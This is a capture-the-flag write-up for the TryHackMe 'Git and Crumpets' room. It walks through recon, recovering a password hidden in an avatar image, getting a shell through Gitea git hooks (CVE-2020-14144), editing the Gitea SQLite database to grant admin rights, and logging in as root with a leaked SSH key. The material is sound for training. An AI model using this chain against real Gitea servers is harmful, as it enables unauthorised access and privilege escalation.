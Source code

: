 # Git and Crumpets 

![image](https://user-images.githubusercontent.com/5285547/124516978-c903a380-ddda-11eb-9889-003881db1c7b.png)

- Room link: https://tryhackme.com/room/gitandcrumpets

## Nmap 

Let's see what we are working with here. 

```
Nmap scan report for git.git-and-crumpets.thm (10.10.255.148)
Host is up (0.022s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
9090/tcp closed zeus-admin
```
I see ```git.git-and-crumpets.thm``` and ```git-and-crumpets.thm``` in the nmap output.  
Let's add them to our ```/etc/hosts``` file

```
sudo nano /etc/hosts
```

## Port 80

Visiting the main website page, instantly redirects us to a Rick Astley video (we do love our Rick).
After having added the new hosts to the host file, I can now see the real page... 

![image](https://user-images.githubusercontent.com/5285547/124517211-55ae6180-dddb-11eb-8d35-0cb559d7a423.png)

Let's make an account and have a look around the system.  
After making the new account login. When you get there you will notice a few repos in ```Explore``` tab. 

![image](https://user-images.githubusercontent.com/5285547/124517322-9c9c5700-dddb-11eb-9f7c-4eb5f1302aed.png)

Checking the repo and its commits, we can see 5 changes. Let's review them. 

![image](https://user-images.githubusercontent.com/5285547/124517368-b50c7180-dddb-11eb-8987-c4513be276d0.png)

Now knowing the users password is in the image, lets get it. 

```
curl http://git.git-and-crumpets.thm/avatars/3fc2cde6ac97e8c8a0c8b202e527d56d -s | strings -n 8 | head
```
Result
```
8tEXtDescription
My 'Password' should be easy enough to guess
E7V:W*555}
```
Next we need to find his email, luckily its on the main profile for the user. 

![image](https://user-images.githubusercontent.com/5285547/124517524-13395480-dddc-11eb-8dc6-e45bb81effd2.png)

## User

Lets login as the new user, then check if he has nay higher privileges. 

![image](https://user-images.githubusercontent.com/5285547/124517654-66aba280-dddc-11eb-8537-2747bfff88f3.png)

Yes, Githooks are available. This will allow use to execute code on a successful change to the repo.

More info here: https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/

Edit the page above with a bash shell to your machine. 

![image](https://user-images.githubusercontent.com/5285547/124517772-bbe7b400-dddc-11eb-95fc-148134506ffe.png)

Then update the hook script to save it.
Now edit the readme.md file with any change to get our hook to fire and get a shell. 

![image](https://user-images.githubusercontent.com/5285547/124518309-fef65700-dddd-11eb-9e90-3fcd32af987f.png)

We can grab the flag in the home folder. (/home/git)  
Its abse64 encoded, so decode it. If you forget ...

```
echo dGhte2ZYzZDZhYTE2fQ=|base64 -d 
```

## Root

Let's now look around the system for any gitea related files (database, config etc)

```
find / -type f 2>/dev/null | grep "gitea" | grep "db"
```
```
/var/lib/gitea/data/gitea.db      << Looks like what we need!! 

/var/lib/gitea/data/gitea-repositories/root/backup.git/objects/05/2db66e7afb93b756a8fd79b1d794299e40a684
/var/lib/gitea/data/gitea-repositories/scones/cant-touch-this.git/objects/7a/8cad890480058860f42788db193afa38182cb6
/var/lib/gitea/data/queues/push_update/000002.ldb
/var/lib/gitea/data/queues/notification-service/000002.ldb
/var/lib/gitea/data/queues/repo_stats_update/000002.ldb
/var/lib/gitea/data/queues/pr_patch_checker/000002.ldb
```
Now change to the directory. Running ```file /var/lib/gitea/data/gitea.db```  
Shows us this is a SQlite3 database. 

![image](https://user-images.githubusercontent.com/5285547/124519198-82b14300-dde0-11eb-839b-2be44023705f.png)

```
sqlite3 gitea.db
```

- SQlite3 Basic Cheatsheet

```
sqlite> .database              #List database
slqite> .tables                #List tables
sqlite> .scheme user           #List schema of the table users
sqlite> .mode column           #Set mode to column
sqlite> .mode tab
sqlite> .mode line             #Set mode to line   - my preffered here. 
sqlite> .width 10 25 3 6 15    #Set width of column
sqlite> .show                  #Show column settings
```

After listing the tables and seeing a user table, lets get the data to some passwords hopefully. 
Trying the crack the passwords was taking a really long time, so I opted to edit the user we had access to. 
Giving him admin access via the sqlite database. 

```
UPDATE user SET is_admin=1 WHERE id=3;
```

Going back to the application we now see a new repo. 

![image](https://user-images.githubusercontent.com/5285547/124520096-47fcda00-dde3-11eb-95e8-07978deb579b.png)

Looking at the brances, we can see a new file ```dotfiles```

![image](https://user-images.githubusercontent.com/5285547/124520136-6fec3d80-dde3-11eb-9334-a483faa55567.png)

With old commits, one in particular looks very interesting. 

![image](https://user-images.githubusercontent.com/5285547/124520169-87c3c180-dde3-11eb-8c29-898af75e9768.png)

An ssh key!!

![image](https://user-images.githubusercontent.com/5285547/124520205-a1fd9f80-dde3-11eb-9870-887b41eec23e.png)

Copying the contents to a new file and making it executable. Then using the "password" from the file name. 
We can now access SSH and get the last flag. 

```
nano id_rsa   #copy contents in
chmod 600 id_rsa
ssh root@git-and-crumpets -i id_rsa
```

![image](https://user-images.githubusercontent.com/5285547/124520332-133d5280-dde4-11eb-9faa-8a83df540199.png)

Now we got the last flag and owned the box! 



